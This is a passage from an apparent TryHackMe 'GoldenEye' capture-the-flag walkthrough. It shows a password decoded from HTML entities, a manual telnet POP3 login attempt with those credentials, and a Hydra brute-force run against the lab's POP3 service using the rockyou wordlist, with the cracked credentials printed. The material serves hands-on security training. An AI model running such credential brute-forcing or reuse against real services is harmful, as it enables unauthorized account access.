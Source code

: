```js
}
```

`Boris`

5. Who needs to make sure they update their default password?

[https://gchq.github.io/CyberChef/#recipe=From_HTML_Entity()&input=JiM3MzsmIzExMDsmIzExODsmIzEwNTsmIzExMDsmIzk5OyYjMTA1OyYjOTg7JiMxMDg7JiMxMDE7JiM3MjsmIzk3OyYjOTk7JiMxMDc7JiM1MTsmIzExNDs](https://gchq.github.io/CyberChef/#recipe=From_HTML_Entity()&input=JiM3MzsmIzExMDsmIzExODsmIzEwNTsmIzExMDsmIzk5OyYjMTA1OyYjOTg7JiMxMDg7JiMxMDE7JiM3MjsmIzk3OyYjOTk7JiMxMDc7JiM1MTsmIzExNDs)

`InvincibleHack3r`

6. Whats their password?
7. Now go use those credentials and login to a part of the site.

## Task 2 Its mail time...

Onto the next steps..

1. Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable?

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER
+OK
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
quit
+OK Logging out
Connection closed by foreign host.
```

3. If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ hydra -l natalya -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:02:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:04:56
```
